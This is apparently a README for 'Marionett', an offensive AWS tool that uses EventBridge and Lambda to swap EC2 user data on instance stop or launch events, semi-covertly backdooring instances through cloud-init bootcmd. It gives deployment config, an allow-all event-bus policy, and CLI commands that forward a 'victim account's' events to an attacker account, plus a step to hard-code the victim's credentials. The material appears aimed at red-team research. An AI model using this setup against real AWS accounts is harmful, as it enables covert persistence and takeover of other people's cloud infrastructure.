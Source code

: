 # Marionett

Marionett is an example of an automated lambda function that runs and swaps out user data on EC2 event machine events. It is
an example of how an attacker could semi-covertly backdoor EC2 instances passively on instance change events or actively on
creation. The API calls will stand out, but from the user's perspective, when in passive mode, there will be no obvious changes
to the instance. In active mode the instance is simply taking longer to start up, active mode requires less actions on the behalf
of the victim, but may cause issues with certain
provisioning tools. This is a well known attack, only change to what I've seen elsewhere is adding Event Bridge and Lambda.

In general this is an improved version of [UserDataSwap](https://github.com/RyanJarv/UserDataSwap).

## Active vs Passive

Marionett can run in either active or passive mode, passive is generally safer and less likely to interfere with
infrastructure provisioning however requires the instance to be shutdown through some other means, likely by the end
user. When running in the active mode Marionett will shut down the node shortly after it is initially created with
the RunInstances API, by default this is immediately however can be configured to wait up to 900 seconds after creation
to work around issues that you may run into with provisioning tools.

## Config
The config is located at `chalicelib/config.yaml` and should be edited before deploy.
### Options
* dynamodb_table
  * Name of the DynamoDB table to create to track instance state.
* sqs_queue
  * Name of the SQSQueue table to create to queue restart events when using active mode.
* active_mode
  * `True` or `False`, enables active mode.
* restart_delay
  * Used when active_mode is set to `True`. 
  * Number of seconds to wait after the RunInstances API is called before restarting the instance.
    * To work around terraform SSH provisioning complaining about an incorrect instance state this can be set to 9. 
      However, this is only useful if an Elastic IP or IPv6 address is used to connect to the instance, otherwise the
      IP will change on restart and SSH provisioning will fail.
    * To work around terraform SSH provisioning when an ElasticIP address is not used you can set this to a higher number
      to have it wait till provisioning is complete before restarting. Essentially this needs to be a best guess since
      we don't have any indication when this may be done.
* user_data
  * Our user data we want to set on the instance temporarily.
  * This will get reverted to the original metadata at the next instance stopped event.
  * `bootcmd` will run at every startup regardless of if cloud-init has run previously.

### Default Settings
```
---
dynamodb_table: UserDataSwap
sqs_queue: user-data-swap-restart-delay
active_mode: False
restart_delay: 0
user_data: |-
#cloud-config

bootcmd:
- echo HELLO FROM USER DATA SCRIPT | tee /msg > /dev/kmsg
```

## Cross-Account Access

There is a fair amount of permissions required to deploy this, which is ok if you just want to test it out. To be useful
it may make more sense to deploy in a seperate account then the one you're targeting, this way the initial set up only
requires `events:PutRule` and `events:PutTargets` permissions in the victim account. I'll likely add support for this in
the future, for now you can try the following to do this manually.

__WARNING__: This will allow any AWS account to run any action against the bus set up in the Marionett account,
probably best to set this part up in a account that isn't used for anything else. The permissive resource policy is one
of the ways to get override the lack of permissions assigned to the the put-event rule in the victim account. Doing it
this way avoids the need for `iam:PassRole` permissions in the victim account to create the event bus rules that forward
the events to the Marionette account. It may be possible to reduce these permissions, I need to do more testing here
though.

* In the Marionett account:
  * In the Marionett lambda account create a new event bus named `run-instance-trigger` and give it the following
    resource policy.
    ```
    {
      "Version": "2012-10-17",
      "Statement": [{
        "Sid": "allow_account_to_put_events",
        "Effect": "Allow",
        "Principal": "*",
        "Action": "*",
        "Resource": "<this event bus arn>"
      }]
    }
    ```
  * Set up the following rule to trigger the Marionett function with the event config below.
     ```
      {
        "source": ["aws.ec2"],
        "detail-type": ["EC2 Instance State-change Notification"],
        "detail": {
          "state": ["stopped"]
        }
      }
     ```
  * If active mode is used add a second rule with the following.
     ```
     {
       "source": ["aws.ec2"],
       "detail": {
         "eventSource": ["ec2.amazonaws.com"],
         "eventName": ["RunInstances"]
       }
     }
     ```
* In the victim account:
  * Create the run-instances event trigger:
    ```
    aws --profile victim-account events put-rule \
      --name run-instance-trigger \
      --state ENABLED \
      --event-bus-name default \
      --event-pattern '{
          "source": ["aws.ec2"],
          "detail": {      
            "eventSource": ["ec2.amazonaws.com"],
            "eventName": ["RunInstances"]
          }
        }'
    ```
  * Add a target to forward to the event-bus in the Marionett account:
    ```
    aws events put-targets --rule run-instance-trigger \
      --event-bus-name default \
      --targets "Id"="1","Arn"="arn:aws:events:<region>:<attacker account #>:event-bus/run-instance-trigger"
    ```
* You should see the Marionett triggered when a instance is created in the victim account now.
  * Update the lambda to hard code the credentials needed to make EC2 related calls in the vicitims account and deploy.

## More Info

For more info you can see my post on [Backdooring user data](https://blog.ryanjarv.sh/2020/11/27/backdooring-user-data.html)

## Related Attacks

For another similar attack (Update: AWS now prevents this in most accounts) with different pros/cons take a look at 
[EC2FakeIMDS](https://github.com/RyanJarv/EC2FakeImds). The talk and slides going over these two can be found on
[my blog](https://blog.ryanjarv.sh/2020/12/04/deja-vu-in-the-cloud.html).

## Requirements

* AWS CLI already configured with Administrator permission for the deployment account (which isn't necessarily the
  targeted account, see the Cross Account section for more info).
* Recent version of [Python](https://www.python.org/)
* [Chalice](https://github.com/aws/chalice)
* [AWS CLI](https://pypi.org/project/awscli/)

## Setup process

### Installing dependencies & building the target 

```shell
python3 -m venv venv
source venv/bin/activate
pip install chalice boto3
```

## Deployment

```bash
make deploy/infra
```

## Wish List
* Target individual instances or tags

### Testing

TODO

